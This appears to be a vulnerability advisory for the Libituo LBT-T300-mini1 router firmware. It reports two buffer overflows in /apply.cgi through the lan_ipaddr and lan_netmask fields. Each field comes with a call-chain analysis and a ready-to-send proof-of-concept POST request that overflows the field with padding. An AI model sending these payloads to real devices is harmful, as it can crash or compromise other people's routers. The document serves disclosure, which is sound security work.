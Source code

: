# LBT-T300-mini1 Buffer Overflow
**Vulnerability description**
Shenzhen Libituo Technology Co., Ltd LBT-T300-mini1 v1.2.9 was discovered to contain two buffer overflows via multiple  parameters at /apply.cgi.

## 1.lan_ipaddr

### Vulnerability analysis
Due to the lack of data length restrictions of the lan_ipaddr parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40C564()->start_single_service()->start_workmode()->start_lan().
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/dd74dbb3-a048-4f30-b4bd-e3f697f772ec)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/9305c851-eea6-4a2e-a668-3fd07fe1fcb3)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/4dc3dca9-8290-4788-a68d-dbd2e8967e5a)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/9c3db57b-1e4a-412a-bbcf-fdd58195cd54)




> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/LAN_DHCPS_AP.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=LAN_DHCPS_AP&change_action=&action=Apply&lan_ipaddr=192.168.10.0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&LAN_DHCPS_AP=NONE&dhcp_server_enable=1&lan_netmask=255.255.255.0&dhcp_start=192.168.10.1&dhcp_end=192.168.10.115&dhcp_lease=999

```

## 2.lan_netmask
### Vulnerability analysis
Due to the lack of data length restrictions of the lan_netmask parameter, a buffer overflow vulnerability is created.

function call chain

Main()->sub_40C564()->start_single_service()->start_workmode()->start_lan().
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/e9e09db1-3a0a-410b-93b7-60164e49039a)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/9305c851-eea6-4a2e-a668-3fd07fe1fcb3)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/4dc3dca9-8290-4788-a68d-dbd2e8967e5a)
![image](https://github.com/AdamRitz/lbtvul/assets/95133035/9c3db57b-1e4a-412a-bbcf-fdd58195cd54)


> Payload

```html
POST /apply.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 697
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/LAN_DHCPS_AP.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

submit_button=LAN_DHCPS_AP&change_action=&action=Apply&lan_ipaddr=192.168.10.0&LAN_DHCPS_AP=NONE&dhcp_server_enable=1&lan_netmask=255.255.255.0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&dhcp_start=192.168.10.1&dhcp_end=192.168.10.115&dhcp_lease=999

```
